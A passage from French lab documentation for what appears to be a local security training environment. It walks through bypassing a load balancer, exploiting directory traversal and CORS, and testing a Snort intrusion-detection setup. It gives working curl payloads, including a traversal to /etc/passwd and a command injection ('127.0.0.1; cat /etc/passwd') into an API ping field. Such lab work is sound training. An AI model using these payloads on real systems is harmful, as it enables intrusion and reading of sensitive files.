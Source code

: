 ### Phase 2: Contournement de l'équilibrage

1. **Détection de la méthode d'équilibrage**
   - Identifiez le type d'équilibrage utilisé (roundrobin, sticky sessions)
   ```bash
   for i in {1..10}; do curl -s http://localhost/ | grep -o "Backend [0-9]"; done
   ```

2. **Attaque directe des backends**
   - Contournez l'équilibreur en accédant directement aux backends:
   ```bash
   curl http://172.16.1.21/
   curl http://172.16.1.22/
   ```

### Phase 3: Exploitation des backends

1. **Exploitation de la traversée de répertoire**
   - Essayez d'accéder à des fichiers sensibles via le backend1:
   ```bash
   curl http://172.16.1.21/files/../etc/passwd
   ```

2. **Exploitation des vulnérabilités CORS**
   - Analysez les entêtes CORS du backend2:
   ```bash
   curl -I -H "Origin: http://attacker.com" http://172.16.1.22/
   ```

### Phase 4: Exploitation de l'API

1. **Injection de commande via l'API**
   - Utilisez l'API vulnérable pour exécuter des commandes:
   ```bash
   curl -X POST http://localhost/api/ping -H "Content-Type: application/json" -d '{"host":"127.0.0.1; cat /etc/passwd"}'
   ```

## Scénario 4: Détection d'intrusion

**Objectif**: Configurer la détection d'intrusions et déclencher/analyser des alertes.

**Modules requis**: Core + Monitoring

**Démarrage**:
```bash
./start-monitoring-scenario.sh
```

### Phase 1: Configuration de la détection

1. **Configuration des règles Snort**
   - Examinez les règles existantes:
   ```bash
   cat snort/rules/local.rules
   ```
   - Ajoutez une règle personnalisée pour détecter les scans Nmap
